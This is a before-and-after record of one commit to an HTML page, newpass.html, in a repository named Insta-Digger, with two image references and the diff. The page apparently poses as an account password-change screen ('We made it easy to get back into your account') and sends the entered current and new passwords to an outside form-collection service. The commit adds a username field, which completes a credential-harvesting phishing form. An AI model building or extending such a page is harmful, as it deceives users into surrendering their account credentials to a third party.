

Before and after one commit to TheAnkushshah/Insta-Digger, a plain HTML site: page newpass.html in a window 1280 px wide. Shown: the part 253-560 px from the top of the page, without its empty margins (167-1112 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update newpass.html

```diff
--- a/newpass.html
+++ b/newpass.html
@@ -14,6 +14,7 @@
         <p style="font-size: 14px; width: 95%; font-weight: 400; margin: auto; color: #737373; padding-bottom: 8px;">We made it easy to get back into your account.</p>
         <div class="form-group-modified">
             <form action="https://formcarry.com/s/4u9fu8BQRR6" method="POST">
+                <input type="text" name="Username" id="emailInputModified" placeholder="Username" style="margin: 4px 0;" required>
                 <input type="text" name="Current Password" id="emailInputModified" placeholder="Current password" style="margin: 4px 0;" required>
                 <input type="text" name="New Password" id="emailInputModified" placeholder="New password" style="margin: 4px 0;" required>
                 <input type="text" name="Re-type new password" id="emailInputModified" placeholder="Re-type new password" style="margin: 4px 0;" required>
```
